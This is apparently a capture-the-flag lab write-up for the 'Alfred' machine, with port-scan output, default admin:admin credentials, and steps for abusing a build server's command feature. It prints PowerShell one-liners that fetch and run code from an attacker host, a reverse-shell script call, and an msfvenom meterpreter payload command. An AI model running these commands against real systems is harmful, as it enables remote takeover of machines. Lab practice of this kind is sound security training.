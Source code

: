 # ALFRED

## BASIC INFO
```
export IP=10.10.18.107

80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T02:33:53+00:00; -40s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

> - **How man ports are open?**
>> 3

> - **What is the username and password for the log in panel (in the format username:password)**
>> admin:admin\
The login page is located at port 8080

> - **Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature use this command to get th reverse shell on your machine and run it. `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`.**
>> No answer needed

The feature is under view, project, configure tab. Set the project to run every 5 minutes with `H/5 * * * *` and the command in Execute Windows batch command under Build.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9001 -f exe -o shell.exe
```
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.8.177:8000/shell.exe','shell.exe'); Start-Process 'shell.exe'
```

